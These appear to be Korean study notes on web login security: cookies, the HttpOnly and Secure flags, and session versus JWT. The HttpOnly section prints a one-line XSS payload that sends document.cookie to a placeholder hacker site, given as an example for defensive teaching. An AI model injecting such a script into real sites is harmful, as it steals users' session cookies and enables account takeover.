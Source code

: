## **로그인 구현하기** 

### 1. Cookie에 대한 이해 
- 쿠키는 HTTP통신을 이용하는 서버 어디에서든지 쿠키를 주고 받을 수 있으며 클라이언트에서도 쿠키에 접근하고 관리할 수 있다.
- HTTP는 기본적으로 상태정보를 기억하지 못하기 때문에, 서버는 요청자가 누구인지, 같은 사람인지 식별할 수 없다.
- 이러한 문제를 해결하기 위해, 서버는 사용자의 식별정보를 쿠키에 저장하며, 쿠키에 저장된 정보를 통해 각 사용자를 구별한다.
- 수많은 사이트들에서 민감한 개인정보를 쿠키에 저장하고 있으며, 해커들은 다양한 방법으로 이 쿠키를 탈취하고자 하므로 보안에 신경을 써야 된다.

### 2. HTTP Only Cookies

쿠키는 클라이언트에서 자바스크립트로 조회할 수 있기 떄문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도를 하게 된다. 가장 대표적인 공격 중 하나가 CSS(Cross Site Scripting)이다. 
```jsx
location.href = "http://해커사이트/?cookies=" + document.cookie;
```
해커가 이와 같은 게시물을 공개게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.

이러한 취약점을 해결하는 방법은, 바로 브라우저에서 쿠키에 접근할 수 없도록 제한하는 것이다. 이러한 역할을 하는 것이 바로 HTTP Only Cookie이다. 개발자가 다음과 같이 간단한 접미사를 쿠키 생성코드에 추가함으로써 활성화할 수 있다.
```jsx
Set-Cookie: 쿠키명 = 쿠기값; path=/; HttpOnly
```
가장 마지막에 HttpOnly라는 접미사만 추가함으로써 HTTP Only Cookie가 활성화 되며, 위에서 말한 XSS와 같은 공격이 차단되게 된다. HTTP Only Cookie를 설정하면 브라우저에서 해당 쿠키로 접근할 수 없게 되지만, 쿠키에 포함된 정보의 대부분이 브라우저에서 접근할 필요가 없기 때문에 HTTP Only Cookie는 기본적으로 적용하는 것이 좋다.

### 3. Secure Cookies
HTTP Only Cookie를 이용하면 Client에서 Javascript를 통한 쿠키 탈취문제를 예방할 수 있다. 하지만 Javascript가 아닌 네트워크를 직접 감청하여 쿠키를 가로챌 수 있다. 이러한 통신상의 정보유출을 막기위해 HTTPS 프로토콜을 사용하여 데이터를 암호화하는 방법이 주로 사용되고 있다. HTTPS를 사용하면 쿠키 또한 암호화되어 전송되기 때문에, 제 3자는 내용을 알 수 없다.

문제는 HTTPS로 전송되어야 할 정보가, 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있다. 예를 들어 개발자가 다음과 같은 코드를 실수로 작성할 수 있다.
```jsx
<img src="http://www.example.com/images/logo.png" />
```
브라우저는 http://로 시작되는 위 코드를 만나면 암호화되지 않은 상태로 쿠키를 서버로 전달하게 됩니다. 해커는 이 암호화되지 않은 요청정보를 가로채서 쿠키를 탈취하게 됩니다.

이러한 사고를 방지하는 방법은 쿠키를 생성할 때 secure 접미사를 사용하는 것이다.
```jsx
Set-Cookie: 쿠키명=쿠키값; path=/; secure
```
위와 같이 마지막에 secure라는 접미사를 사용하여 쿠키를 생성하면, 브라우저는 HTTPS가 아닌 통신에서는 쿠키를 전송하지 않는다.

### 4. Session vs JWT(Json web Token)

**1.Sesstion(세션)**
- 전통적으로 많이 사용되어 온 방식으로, 서버 기반 인증방법이다.
- 세션 id를 사용해서 어떤 사용자가 서버에 로그인 되어있음이 지속되는 상태를 '세션'이라고 한다.
1. 사용자가 로그인에 성공하면 세션을 발행한다.
2. 그 세션을 브라우저에도 저장하고 서버 메모리에도 저장한다.
3. 인가가 필요한 요청을 보낼 때 서버에 세션값을 같이 보냄
4. 서버는 메모리에 저장된 값과 세션값을 비교해서 맞는 값이 있으면 성공

**단점은?**
- 세션이 서버에 저장되어 있기 때문에 사용자가 동시 다중 접속할 떄 메모리가 부족해진다.
- 확장성 부분에서 분산된 서버의 경우 세션 유지가 제대로 안되기 때문에 서버 확장이 어렵다.

**2. JWT (JSON Web Token)**
- 사용자가 로그인을 하면 토큰을 주는데, 이 토큰을 서버가 기억하고 있지는 않는다.(stateless)
- 세션을 대체하지 못하는 이유는 모든 사용자의 상태를 기억하고 있지 않는다.
- JWT는 이미 제공한 토큰을 뺏을 수 없어서 해커에게 토큰을 빼앗겨도 톸느을 무효화할 방법이 없음 => accessToken, refreshToken 두개의 토큰을 제공해야 한다.



